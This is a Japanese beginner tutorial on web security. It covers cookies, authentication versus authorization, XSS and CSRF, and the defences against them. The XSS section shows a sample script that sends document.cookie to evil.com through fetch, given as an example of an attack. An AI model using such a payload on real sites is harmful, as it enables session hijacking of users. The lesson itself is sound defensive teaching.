



# 認証とセキュリティ — HTTP がステートレスだから Cookie が必要になった

## 今日のゴール

- HTTP がステートレスであること、それを補う Cookie の仕組みを知る
- 認証と認可の違いを知る
- XSS と CSRF がどういう攻撃か、なぜ防御が必要かを知る

## HTTP はリクエストごとに「初対面」

HTTP はステートレスなプロトコルです。サーバーはリクエストを 1 つ受け取って 1 つ返すだけで、前のリクエストのことを覚えていません。

つまり「ログインした」というリクエストの後に「マイページを見たい」というリクエストを送っても、サーバーにとっては**別人**です。



## Cookie — 「覚えておいてもらう」ための仕組み

Cookie は、サーバーがブラウザに「これを持っておいて、次のリクエストのときに送り返して」と渡す小さなデータです。

ログイン成功時にサーバーが Cookie を返し、ブラウザが以降のリクエストに自動的に Cookie を付けることで、「さっきログインした人だ」とサーバーが判断できます。

```
Set-Cookie: session_id=abc123; HttpOnly; Secure; SameSite=Strict
```

| 属性 | 意味 |
|------|------|
| `HttpOnly` | JavaScript からアクセスできない（XSS 対策） |
| `Secure` | HTTPS でのみ送信される |
| `SameSite=Strict` | 同じサイトからのリクエストでのみ送信（CSRF 対策） |

## 認証と認可

Web アプリのセキュリティでよく出てくる 2 つの概念です。

- **認証**（Authentication）: 「あなたは誰ですか？」— ログイン
- **認可**（Authorization）: 「あなたはこれをしていいですか？」— 権限の確認



ログインは認証。管理者ページへのアクセス制御は認可。2 つは別の処理です。

## XSS — 悪意のあるスクリプトを埋め込む攻撃

**XSS**（Cross-Site Scripting）は、攻撃者が Web ページに悪意のある JavaScript を埋め込む攻撃です。

たとえば掲示板にこう投稿されたとします。

```html
<script>
  // Cookie を盗んで攻撃者のサーバーに送る
  fetch("https://evil.com/steal?cookie=" + document.cookie);
</script>
```

この投稿がそのまま HTML に埋め込まれると、他のユーザーがページを開いたときに JavaScript が実行され、Cookie（セッション情報）が盗まれます。

### 対策

- **ユーザー入力をエスケープする**: `<script>` を `&lt;script&gt;` に変換して、HTML として解釈されないようにする
- **Cookie に `HttpOnly` を付ける**: JavaScript から Cookie にアクセスできなくする
- React / Next.js では JSX に渡した文字列は**自動的にエスケープ**されるため、基本的に XSS は防がれます。ただし `dangerouslySetInnerHTML` を使うと無効になります

## CSRF — ログイン状態を悪用する攻撃

**CSRF**（Cross-Site Request Forgery）は、ユーザーがログインした状態で悪意のあるサイトを開いたとき、そのサイトから本物のサイトにリクエストを送らせる攻撃です。



ユーザーが銀行にログイン中に悪意のあるサイトを開くと、隠しフォームが銀行に送金リクエストを送ります。ブラウザは Cookie を自動で付けるため、銀行のサーバーは「本人のリクエストだ」と判断してしまいます。

### 対策

- **Cookie に `SameSite=Strict` を付ける**: 別サイトからのリクエストに Cookie を付けない
- **CSRF トークン**: フォームにランダムなトークンを埋め込み、サーバー側で検証する
- Next.js の Server Actions は CSRF トークンの仕組みを内部で持っています

## まとめ

- HTTP はステートレスで、リクエストごとに独立しています。**Cookie** で「ログイン済み」を保持します
- **認証**は「誰か」の確認、**認可**は「権限」の確認です
- **XSS** は悪意のあるスクリプトの埋め込み。React の JSX は自動エスケープで基本的に防がれます
- **CSRF** はログイン状態の悪用。`SameSite` Cookie や CSRF トークンで防ぎます
- Next.js の Server Actions は CSRF 対策を内部で持っています
